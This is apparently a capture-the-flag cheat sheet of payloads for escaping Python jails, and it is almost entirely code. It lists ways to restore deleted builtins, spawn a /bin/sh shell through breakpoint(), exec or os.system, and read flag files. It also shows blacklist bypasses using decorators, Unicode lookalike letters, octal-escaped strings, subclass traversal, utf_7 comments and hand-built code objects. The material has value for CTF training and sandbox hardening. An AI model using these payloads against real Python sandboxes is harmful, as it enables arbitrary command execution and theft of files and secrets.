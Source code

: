 # Pyjail cheatsheet

## Common payloads

### no builtins, inside an interactive shell/multiple exec

```py
# Thanks @Loldemort
del __builtins__
exec(input())
```

### Restore builtins
```py
help.__call__.__builtins__ # or __globals__
license.__call__.__builtins__ # or __globals__
credits.__call__.__builtins__ # or __globals__
print.__self__
dir.__self__
globals.__self__
len.__self__
__build_class__.__self__

defined_function.__builtins__ # or __globals__
```

### Spawning a shell

```py
breakpoint()
# import os; os.system("/bin/sh")
```
```py
exec(input())
# import os; os.system("/bin/sh")
```
```py
eval(input())
# __import__("os").system("/bin/sh")
```

### Read a file

```py
# to stderr
exit(set(open("flag")))
exit(*open("flag"))
help(*open("flag")) # this also works with (stdout/stderr) closed 
open(*open("flag"))
compile(".","flag","exec") # flag printed to stderr
ast.parse(".", "flag") # only works if ast is imported
```

```py
# to stdout
help(*open("flag")) # this works like a normal print
set(open("flag")) # only works inside an interactive console
print(*open("flag"))
```

### Deleting a variable

```py
# Using try except:

delete_me = ""
try:
    p
except NameError as delete_me:
    pass
print(delete_me) # error
```
```py
# using del

delete_me = ""
del delete_me
print(delete_me) # error
```

## Bypassing common blacklists
### No function calls

```py
@exec
@input
def a:pass # or class a:pass
```

### No function call and no exec/eval

```py
@print
@set
@open
@input
def a:pass # or class a:pass
```

### No function call, no exec/eval, no \n, no spaces, no tabs
```py
@print\r@set\r@open\r@input\rclass\x0ca:pass
```

### No ASCII letters
```py
# I usually use https://lingojam.com/ItalicTextGenerator

𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵() # import os;os.system("/bin/sh")

```

### no ASCII letters, no underscores, inside eval
```
_＿𝘪𝘮𝘱𝘰𝘳𝘵＿_(𝘪𝘯𝘱𝘶𝘵()).system(𝘪𝘯𝘱𝘶𝘵())

```

### no ASCII letters, no double underscores, no builtins, inside eval
```py
()._＿𝘤𝘭𝘢𝘴𝘴＿_._＿𝘮𝘳𝘰＿_[1]._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘦𝘴＿_()[104].𝘭𝘰𝘢𝘥_𝘮𝘰𝘥𝘶𝘭𝘦("\157\163").𝘴𝘺𝘴𝘵𝘦𝘮("\57\142\151\156\57\163\150")
```

### no ASCII letters, no double underscores, no builtins, no quotes/double quotes inside eval (>= python3.8)
```py
[𝘺:=()._＿𝘥𝘰𝘤＿_, 𝘢:=y[19],()._＿𝘤𝘭𝘢𝘴𝘴＿_._＿𝘮𝘳𝘰＿_[1]._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘦𝘴＿_()[104].𝘭𝘰𝘢𝘥_𝘮𝘰𝘥𝘶𝘭𝘦(𝘺[34]+𝘢).𝘴𝘺𝘴𝘵𝘦𝘮(𝘢+𝘺[56])]
```

### no builtins, no mro, single exec
```py
().__class__.__class__.__subclasses__(().__class__.__class__)[0].register.__builtins__["breakpoint"]()
```
### Bypass parsers using comments and encodings
(only works if everything is put into a file and then executed)
```py
# -*- coding: utf_7 -*-
def f(x):
    return x
    #+AAo-print(open("flag.txt").read())
```

### multiple exec, no dots, no builtins/builtins blacklisted  + other blacklisted words 
```py
# only works if sys is already imported
__builtins__ = sys
__builtins__ = modules
__builtins__ = os
system("cat /flag")
```

### builtins are deleted from everywhere:
https://gist.github.com/CharlesAverill/e7fef5a6e078f14b7ac7b3d318e3e24f?permalink_comment_id=4749794#gistcomment-4749794

### Bypass blacklists building functions from scratch
```py
# The number of arguments may change based on the Python version
(lambda x:0).__class__((lambda x:0).__code__.__class__(0, 0, 0, 3, 64, 10, b't\x00d\x01\x83\x01S\x00', (None, 'Your Code Goes Here'), ('exe''c',), ('',), '', '', 1, b'', (), ()), (lambda x:0).__globals__)()
```
